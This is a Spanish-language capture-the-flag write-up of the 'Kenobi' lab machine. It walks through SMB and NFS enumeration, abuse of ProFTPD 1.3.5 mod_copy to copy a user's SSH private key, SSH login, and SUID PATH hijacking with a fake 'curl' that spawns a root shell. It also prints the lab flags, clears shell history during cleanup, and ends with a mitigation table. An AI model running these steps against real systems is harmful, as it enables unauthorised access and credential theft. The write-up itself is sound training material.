# Kenobi CTF


---

## Fase 1 — Enumeración

### Fase 1.1 — Nmap Port Scan

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
nmap -sC -sV <TARGET_IP>
```

**Puertos descubiertos:**

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 21/tcp | FTP | ProFTPD 1.3.5 🔴 |
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | HTTP | Apache 2.4.41 Ubuntu |
| 111/tcp | RPCbind | NFS accesible |
| 139/tcp | SMB | Samba smbd 4 |
| 445/tcp | SMB | Samba smbd 4 |
| 2049/tcp | NFS | 3-4 (RPC #100003) |

**Hallazgos:**
- **ProFTPD 1.3.5** → vulnerable a mod_copy (copia de archivos sin autenticación) 🔴
- **SMB** → share `anonymous` accesible sin credenciales
- **NFS** → `/var` exportado y montable desde fuera
- **NetBIOS name:** `KENOBI`





---

### Fase 1.2 — Enumeración SMB shares

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
smbclient -L //<TARGET_IP> -N
```

**Hallazgos:**
- Share `anonymous` → accesible sin credenciales 🔴
- Share `print$` → Printer Drivers
- `IPC$` → kenobi server (Samba, Ubuntu)



---

### Fase 1.3 — Acceso SMB anonymous y análisis de log.txt

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
smbclient //<TARGET_IP>/anonymous -N
ls
get log.txt
exit
cat log.txt
```

**Hallazgos críticos:**
- `id_rsa` guardada en `/home/kenobi/.ssh/id_rsa` → objetivo a robar
- ProFTPD corre como usuario **kenobi** (`User kenobi`)
- Share `anonymous` apunta a `/home/kenobi/share`







---

### Fase 1.4 — Enumeración NFS (puerto 111)

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <TARGET_IP>
```

**Hallazgos:**
- `/var` exportado via NFS → accesible desde fuera 🔴
- `/var/tmp` → directorio escribible por kenobi → destino para la id_rsa



---

## Fase 2 — Foothold

### Fase 2.1 — Explotar ProFTPD mod_copy → Copiar id_rsa

**Vulnerabilidad:** ProFTPD 1.3.5 con módulo `mod_copy` permite copiar archivos del sistema sin autenticación mediante los comandos `SITE CPFR` y `SITE CPTO`.

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
nc <TARGET_IP> 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

**Hallazgos:**
- `350` → archivo encontrado en `/home/kenobi/.ssh/id_rsa`
- `250 Copy successful` → id_rsa copiada a `/var/tmp/id_rsa` ✅



---

### Fase 2.2 — Montar NFS y recuperar id_rsa

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
sudo mkdir /mnt/kenobiNFS
sudo mount <TARGET_IP>:/var /mnt/kenobiNFS
ls /mnt/kenobiNFS/tmp/
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
```

**Hallazgos:**
- `id_rsa` visible en `/mnt/kenobiNFS/tmp/`
- Copiada y permisos `600` configurados → lista para SSH



---

### Fase 2.3 — SSH como kenobi + User Flag

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
ssh -i id_rsa kenobi@<TARGET_IP>
whoami
cat /home/kenobi/user.txt
```

**User Flag:**
```
d0b0f3f53b6caa532a83915e19224899
```



---

## Fase 3 — Escalada de Privilegios

### Fase 3.1 — Identificación de binarios SUID

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO - como kenobi]
find / -perm -u=s -type f 2>/dev/null
```

**Hallazgo crítico:**

| Binario | Observación |
|---------|-------------|
| `/usr/bin/menu` | No es un binario estándar de Linux 🔴 |



---

### Fase 3.2 — Análisis del binario menu con strings

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO - como kenobi]
strings /usr/bin/menu
```

**Hallazgos:**
- El binario presenta 3 opciones: status check, kernel version, ifconfig
- Ejecuta comandos **sin ruta absoluta**: `curl`, `uname`, `ifconfig` 🔴
- Al tener SUID de root → PATH manipulation posible



---

### Fase 3.3 — PATH Manipulation → Root Shell + Root Flag

**Comandos ejecutados:**
```bash
# [MÁQUINA OBJETIVO - como kenobi]
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
# Seleccionar opción 1 (status check → ejecuta curl)
whoami
cat /root/root.txt
```

**Explicación del ataque:**
- Creamos un `curl` falso en `/tmp` que lanza `/bin/sh`
- Anteponemos `/tmp` al `$PATH`
- Al ejecutar `/usr/bin/menu` → opción 1 → llama a `curl` sin ruta absoluta → encuentra nuestro `curl` falso → shell como root

**Root Flag:**
```
177b3cd8562289f37382721c28381f02
```



---

## Fase 4 — Limpieza

**En la máquina objetivo:**
```bash
# [MÁQUINA OBJETIVO - como root]
rm /var/tmp/id_rsa
rm /tmp/curl
exit
```

**En la máquina atacante:**
```bash
# [MÁQUINA ATACANTE]
sudo umount /mnt/kenobiNFS
sudo rm -rf /mnt/kenobiNFS
rm ~/id_rsa
rm ~/log.txt
history -c
```

---

## V. Mitigation

| Vulnerabilidad | Recomendación |
|----------------|---------------|
| ProFTPD 1.3.5 mod_copy sin autenticación | Actualizar ProFTPD a versión ≥ 1.3.6 o deshabilitar mod_copy |
| SMB share anonymous sin credenciales | Requerir autenticación en todos los shares SMB |
| NFS /var exportado sin restricción de IP | Restringir exports NFS a IPs específicas en /etc/exports |
| id_rsa accesible via NFS | Nunca almacenar claves privadas en directorios montables |
| SUID en binario custom /usr/bin/menu | Eliminar SUID de binarios no esenciales (chmod u-s) |
| PATH manipulation en binario SUID | Usar rutas absolutas en todos los comandos de binarios con SUID |
